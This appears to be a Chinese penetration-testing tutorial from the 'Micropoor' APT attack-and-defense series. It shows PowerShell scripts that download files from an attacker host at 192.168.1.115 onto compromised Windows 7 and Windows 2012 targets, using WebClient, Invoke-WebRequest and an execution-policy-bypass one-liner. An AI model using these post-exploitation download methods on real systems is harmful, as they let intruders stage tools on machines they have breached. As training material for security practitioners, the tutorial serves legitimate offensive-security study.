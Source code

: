 专注APT攻击与防御
https://micropoor.blogspot.com/

自Windows7以后内置了powershell，如Windows 7中内置了PowerShell2.0, Windows 8中内置了PowerShell3.0。

**靶机：windows 7** 
powershell $PSVersionTable
![](media/07fa8437a844c082c950d5643c994ef1.jpg)

**down.ps1:**
基于System.Net.WebClient
![](media/c539c15cfe12c5ae4c5846e6b5a485b3.jpg)

![](media/8772baf3212d72078525abfa44923db1.jpg)

**附：**
```powershell
$Urls = @()
$Urls += "http://192.168.1.115/robots.txt"
$OutPath = "E:\PDF\" 
ForEach ( $item in $Urls) {
$file = $OutPath + ($item).split('/')[-1]
(New-Object System.Net.WebClient).DownloadFile($item, $file) 
}
```

**靶机：windows 2012**
powershell $PSVersionTable
![](media/eaa0bd3c317ef0ae922676a353c59f15.jpg)

**down.ps1:**
在powershell 3.0以后，提供wget功能，既Invoke-WebRequest
![](media/218c38bbb622f9c8a2634cc1c1a713c3.jpg)

C:\inetpub>powershell C:\inetpub\down.ps1
注：需要绝对路径。

![](media/e6557dac203ad4ac9cc208f135f56307.jpg)
![](media/69ef693d770cee3f0a5bd9dfdee62f0a.jpg)

**附：**
```powershell
$url = "http://192.168.1.115/robots.txt"
$output = "C:\inetpub\robots.txt"
$start_time = Get-Date
Invoke-WebRequest -Uri $url -OutFile $output
Write-Output "Time : $((Get-Date).Subtract($start_time).Seconds) second(s)"
```

**当然也可以一句话执行下载：**

`powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://192.168.1.115/robots.txt','E:\robots.txt')`

![](media/d40cd11aaad0632c0941441a31e3286f.jpg)

>   Micropoor
